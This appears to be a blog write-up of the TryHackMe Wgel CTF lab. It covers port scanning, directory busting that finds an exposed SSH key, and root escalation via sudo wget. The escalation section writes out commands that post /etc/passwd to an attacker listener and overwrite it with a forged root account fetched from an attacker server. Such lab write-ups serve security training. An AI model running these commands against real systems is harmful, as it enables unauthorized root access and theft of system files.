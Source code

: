 ```yaml
---
title: TryHackMe Wgel CTF
date: 2024-03-13 00:00:00 +0800
categories: [TryHackMe]
tags: [walkthough,write-ups]     # TAG names should always be lowercase
image:
    path: https://tryhackme-images.s3.amazonaws.com/room-icons/8116d1d52d3a63dd1e7c2e7ddce8a0d5.png
---
```


Can you exfiltrate the root flag? This room have network service pentesting, linux privilege escalation, directory busting bruteforcing.

## **Reconnaissance**
---
Initially do the Nmap scan.
```bash
nmap -sC -sV -p- $IP --open
```
`--open`: Scans only the open ports and reduces the time it takes to complete the nmap scan.


```text
Nmap scan report for 10.10.120.57
Host is up (0.30s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 103.48 seconds
```

## **Insights and To-TRY List**
---
OS: Ubuntu

TARGET IP: 10.10.120.57

80 → HTTP
- Apache httpd 2.4.18
- There is comment in the apache default web page source code that could perhaps a username.
- There is a user input in /sitemap/contact

22 → SSH
- Found id_rsa

## **Enumeration**
---
### 80 HTTP
We know that this contains the default apache web server page that shouts "It Works!". But let's not forget to inspect the source code to not miss things out!

![Desktop View](/assets/images/wgel-ctf/jessie.png){: width="972" height="589" }

Let us try scanning for other directories using gobuster. We also can’t do pretty much here.

```bash
gobuster dir -u http://10.10.120.57 -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt -k -t 30
```

```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/sitemap              (Status: 301) [Size: 314] [--> http://10.10.120.57/sitemap/]
/server-status        (Status: 403) [Size: 277]
```

Upon inspecting the `/sitemap` webpage, we discovered that it accepts user input. However, after conducting basic [command injection](https://book.hacktricks.xyz/pentesting-web/web-vulnerabilities-methodology) and [directory traversal](https://book.hacktricks.xyz/pentesting-web/web-vulnerabilities-methodology) tests, it did not return any errors, which might indicate that the webpage is vulnerable to exploitation.


![Desktop View](/assets/images/wgel-ctf/contact.png){: width="972" height="589" }

Let us try doing some file busting and see if we can find something interesting.

```bash
gobuster dir -u http://10.10.120.57/sitemap/ -w /opt/SecLists/Discovery/Web-Content/raft-medium-files.txt -k -t 30 
```

```text
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 21080]
/contact.html         (Status: 200) [Size: 10346]
/.htaccess            (Status: 403) [Size: 277]
/.                    (Status: 200) [Size: 21080]
/about.html           (Status: 200) [Size: 12232]
/.html                (Status: 403) [Size: 277]
/blog.html            (Status: 200) [Size: 12745]
/services.html        (Status: 200) [Size: 10131]
/shop.html            (Status: 200) [Size: 17257]
/.htpasswd            (Status: 403) [Size: 277]
/.htm                 (Status: 403) [Size: 277]
/.htpasswds           (Status: 403) [Size: 277]
/.ssh                 (Status: 301) [Size: 319] [--> http://10.10.120.57/sitemap/.ssh/]
/.DS_Store            (Status: 200) [Size: 14340]
/.htgroup             (Status: 403) [Size: 277]
/.htaccess.bak        (Status: 403) [Size: 277]
/.htuser              (Status: 403) [Size: 277]
/work.html            (Status: 200) [Size: 11428]
/.htc                 (Status: 403) [Size: 277]
/.ht                  (Status: 403) [Size: 277]
```
So, why do we have an exposed private key in the first place?

![Desktop View](/assets/images/wgel-ctf/privkey.png){: width="972" height="589" }

Question is, can this key be used by the username we just found from the source code?

## **Gaining an Initial Foothold**
---

```text
chmod 600 id_rsa
ssh -i id_rsa jessie@$IP
```
SSH private key file needs to be set with chmod 600 permissions to ensure that only the file owner can access the key while complying with SSH client security policies. Otherwise, it won't work.

![Desktop View](/assets/images/wgel-ctf/ssh.png){: width="972" height="589" }

> Do not forget to find the FLAGS
{: .prompt-danger }


## **Privilege Escalation**
---

I initially checked `sudo -l` command to list the permissions granted to the current user in the sudoers file.

![Desktop View](/assets/images/wgel-ctf/sudo.png){: width="972" height="589" }

The `wget` command is a versatile command-line tool that allows users to download one or several files at once from the internet or a server, utilizing various protocols such as HTTP, HTTPS, and FTP.

This implies that it is possible to download and modify the `/etc/passwd` file to insert a new user, thereby elevating our access privileges.

To start transferring the /etc/passwd to our attacking machine, we need to setup a typical netcat listener.

```bash
nc -lnvp <PORT> > <FILNAME>
```
![Desktop View](/assets/images/wgel-ctf/netcat.png){: width="972" height="589" }

On the target machine

```
sudo /usr/bin/wget --post-file=/etc/passwd <ATTACK_IP>:<PORT>
```
The `--post-file` flag enables wget to send the content of any file.

![Desktop View](/assets/images/wgel-ctf/wget.png){: width="972" height="589" }

From your attacking machine, you can view the extracted file and remove the http headers.

Once removed, generate a new hash password for a new root user in local machine.

```bash
openssl passwd -1 -salt thm password1
```

```bash
$1$thm$lQSjJL4ZZezfQn9UAZSqd1
```

Paste the generated hash to passwd.txt

```bash
echo 'jirho:$1$thm$lQSjJL4ZZezfQn9UAZSqd1:0:0:jirho:/home/jirho:/bin/bash' >> passwd.txt
```

From your attacker's machine working directory, setup a simple http server.

```bash
python3 -m http.server
```
On the target machine, get the file from your attacking machine

```bash
sudo /usr/bin/wget http://<ATTACK_MACHINE_IP>:<PORT>/passwd.txt -O /etc/passwd
```
Switch to the created user

```bash
su <USER>
password1 <-- enter the password you created from openssl
```
![Desktop View](/assets/images/wgel-ctf/root.png){: width="972" height="589" }

> Do not forget to find the FLAGS
{: .prompt-danger }

## **Materials/ References**
---

[Linux for Pentester: Wget Privilege Escalation - Hacking Articles](https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/)

[Sudo Wget Privilege Escalation Exploit Notes](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-wget-privilege-escalation/)



## **Take Away Concepts**
---

- Never skip viewing the source code of the website regardless if it is the default Apache webpage, as it might contain hidden comments with user credentials.
- Conduct thorough directory and file busting. Who knows? Maybe someone left their SSH private keys unattended.
- Understand how wget works to escalate your privileges. Took me about an hour doing some trial and error on how to add a root user to the /etc/passwd using wget
- Username can be brute force using SSH.